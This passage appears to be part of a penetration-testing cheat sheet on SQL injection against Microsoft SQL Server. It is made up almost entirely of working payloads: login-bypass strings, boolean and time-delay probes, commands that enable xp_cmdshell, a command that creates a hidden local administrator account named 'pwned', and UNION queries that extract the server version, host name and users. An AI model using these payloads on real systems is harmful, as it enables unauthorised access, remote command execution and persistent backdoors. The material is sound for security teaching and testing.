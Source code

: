   ```text
  ' or ( 1=1 and username='admin');
  admin' --
  %bf%27 or 1=1 --
  ```

## MsSqli exploitation

* Find injectable parameter, doing do boolean based:

  ```text
  1002' or '1'='1
  1002' and '1'='1
  1002' and '1'='2
  ```

* Find injectable parameter with time delays:

  ```text
  XX'; WAITFOR DELAY '0:0:5'--
  ```

* If it works you can try to enable xp\_cmdshell:

  ```text
  EXEC sp_configure 'show advanced options', 1;
  RECONFIGURE;
  EXEC sp_configure 'xp_cmdshell', 1;
  RECONFIGURE;
  ```

* Test xp\_cmdshell using a time delay:

  ```text
  ';exec master..xp_cmdshell 'ping -n 5 127.0.0.1'; --
  ```

* Add user

  ```text
  ';exec master..xp_cmdshell 'net user pwned 1234 /ADD && net localgroup administrators pwned /ADD'; --
  ```

* If it did not work, try enumerating the database. Find col until no error tells you the columns:

  ```text
  1002' ORDER BY 1--
  1002' ORDER BY 2--
  1002' ORDER BY 3--
  ```

* Run union query with num of cols:

  ```text
  1002' UNION ALL SELECT null,NULL,NULL,NULL--
  ```

* Get data:

  ```text
  ID=1002' UNION ALL SELECT NULL,+ISNULL(CAST(@@VERSION AS NVARCHAR(4000)),CHAR(32)),NULL,NULL--
  ID=1002' UNION ALL SELECT NULL,+ISNULL(CAST(HOST_NAME() AS NVARCHAR(4000)),CHAR(32)),NULL,NULL--
  ID=1002' UNION ALL SELECT NULL,+ISNULL(CAST(INJECTED_FUNCTION AS NVARCHAR(4000)),CHAR(32)),NULL,NULL--

  DB_NAME()
  user_name();
  system_user
  ```
